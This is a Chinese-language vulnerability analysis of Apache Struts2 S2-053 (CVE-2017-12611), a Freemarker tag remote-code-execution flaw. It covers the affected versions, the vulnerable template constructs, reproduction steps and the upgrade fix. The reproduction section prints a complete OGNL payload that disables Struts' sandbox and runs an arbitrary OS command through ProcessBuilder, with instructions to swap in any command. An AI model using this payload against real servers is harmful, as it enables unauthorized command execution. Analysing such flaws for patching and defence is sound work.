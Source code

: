 # Struts2-053漏洞分析

![](/imgsstrust2.jpg)

## 1.&emsp;漏洞描述

* 漏洞描述：当开发人员在Freemarker标签中使用错误的构造时，可能会导致远程代码执行漏洞。
* 漏洞编号：CVE-2017-12611
* 影响版本：
  * Struts 2.0.1 - 2.3.33
  * Struts 2.5 - 2.5.10
* 漏洞等级：高危

## 2. 漏洞简介

| Who should read this    | All Struts 2 developers and users        |
| ----------------------- | ---------------------------------------- |
| Impact of vulnerability | A RCE attack is possible when developer is using wrong construction in Freemarker tags |
| Maximum security rating | Moderate                                 |
| Recommendation          | Upgrade to [Struts 2.5.12](https://cwiki.apache.org/confluence/display/WW/Version+Notes+2.5.12) or [Struts 2.3.34](https://cwiki.apache.org/confluence/display/WW/Version+Notes+2.3.34) |
| Affected Software       | Struts 2.0.1 - Struts 2.3.33, Struts 2.5 - Struts 2.5.10 |
| Reporter                | Lupin <lupin1314 at gmail dot com> - [jd.com](http://jd.com/) security team |
| CVE Identifier          | CVE-2017-12611                           |

## 3.&emsp;漏洞分析

### 3.1  漏洞说明

​	2017年9月7日，Struts官方发布一个中危的安全漏洞，该漏洞编号为:S2-053,在一定条件下，当开发人员在Freemarker标签中使用错误的构造时，可能会导致远程代码执行漏洞，存在一定的安全风险。赛宁网安将对该漏洞进行持续关注，并第一时间为您更新相关漏洞信息。

### 3.2  漏洞分析

​	当在Freemarker标签中使用表达式常量或强制表达式时使用请求值可能会导致远程代码执行漏洞（见下面的示例）。

```java
<@s.hidden name="redirectUri" value=redirectUri />
<@s.hidden name="redirectUri" value="${redirectUri}" />
```

在这两种情况下，值属性都使用可写属性，都会受到Freemarker的表达式的影响。

再将默认的execute方法执行的结果集通过DefaultActionInvocation中的createResult方法传递到ftl模板里

![](/imgs1.png)

![](/imgs2.png)

![](/imgs3.png)

然后接着取出了payload

![](/imgs4.png)

最终FreeMarker模板使用assign指令调用struts.translateVariables方法去执行keyValue的栈顶元素。

## 4.&emsp;漏洞复现

1. 访问工程，看到输入框，输入值直接返回

![](/imgs5.png)

2. 输入payload：

```java
%{(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm): ((#container=#context['com.opensymphony.xwork2.ActionContext.container']).
(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).
(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='whoami').
(#iswin= (@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new
java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).
(@org.apache.commons.io.IOUtils@toString(#process.getInputStream()))}
```

替换Exp中的 `(#cmd='whoami')` 中的命令即可。

![](/imgs6.png)

成功返回命令执行信息。

## 5.&emsp;修复方案

 	升级Apache Struts到version 2.5.13

